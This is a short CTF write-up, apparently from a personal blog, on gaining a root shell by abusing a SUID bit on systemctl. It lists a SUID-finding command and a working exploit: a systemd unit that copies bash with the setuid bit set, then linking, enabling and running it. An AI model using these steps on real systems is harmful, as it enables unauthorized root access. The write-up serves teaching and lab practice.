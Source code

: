 ```yaml
---
title: "SystemCTL SUID bit exploitation"
date: 2025-07-21
categories: [ctf, linux, privesc]
layout: single
toc: true
toc_sticky: true
---
```


The SUID bit (Set owner User ID) is a special permission in Unix/Linux systems that, when set on an executable file, allows that file to be run with the permissions of the file’s owner, rather than the user who is running it. It is denoted with an `s` in the bit:

![SUID bit permission](/assets/images/suid.png)

If a binary owned by root has a SUID bit, the program will always run as root. This is extremely useful, especially in privilege escalation as we can do stuff like get a root shell.

In our case, the `systemctl` utility was assigned a SUID bit that we can exploit to gain a root shell by copying the output of `/bin/bash` to a file we make. The output of `/bin/bash` will be a root shell as in our case `systemctl` has a SUID bit and is owned by root.

> **Tip:** Locate all SUID bits with the command `find / -perm -u=s -type f 2>/dev/null`

## Exploitation

Firstly, we will create a file telling `systemctl` that when ran the output from `/bin/bash` should be written to `/tmp/rootbash` using SUID:

```bash
cat <<EOF > /tmp/rootme.service
[Unit]
Description=Root shell

[Service]
Type=simple
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'

[Install]
WantedBy=multi-user.target
EOF
```

We will then register this file with `systemctl`:

```bash
/bin/systemctl link /tmp/rootme.service
```

We can then enable the service:

```bash
/bin/systemctl enable --now rootme.service
```

Finally, we can run our `rootbash` file:

```bash
/tmp/rootbash -p
```

Note that the `-p` means that privileges should NOT be dropped. (Normally, when a SUID binary is ran, bash drops privileges for safety).

We should successfully obtain a root shell from this!

